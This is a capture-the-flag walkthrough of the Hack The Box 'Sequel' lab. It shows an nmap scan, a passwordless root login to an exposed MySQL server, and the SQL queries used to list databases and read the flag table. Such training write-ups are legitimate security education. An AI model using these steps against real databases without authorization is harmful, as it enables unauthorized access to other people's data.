


# Sequel - Hack The Box (Starting Point)

## Objective
The goal of this machine was to perform enumeration and gain access to the MySQL service running on the target machine.

---

## 🔍 Enumeration

I started with an Nmap scan to identify open ports and services.

```bash
nmap -sV <IP>
```

### Results
- Port 3306 open
- MySQL service detected


---

##  MySQL Access

Since MySQL was accessible, I attempted to connect using the MySQL client.

```bash
mysql -h <IP> -u root
```

The connection was successful without requiring a password.


---

## Database Enumeration

After gaining access, I listed the available databases.

```sql
SHOW DATABASES;
```

Then I selected the target database:

```sql
USE htb;
```

And viewed the available tables:

```sql
SHOW TABLES;
```



---

## Flag Retrieval

Finally, I extracted the flag from the table contents.

```sql
SELECT * FROM config;
```

The flag was successfully retrieved.



---

## Key Learnings

- Basic service enumeration using Nmap
- Identifying MySQL services
- Connecting to MySQL remotely
- Basic SQL database interaction
- Importance of securing database access
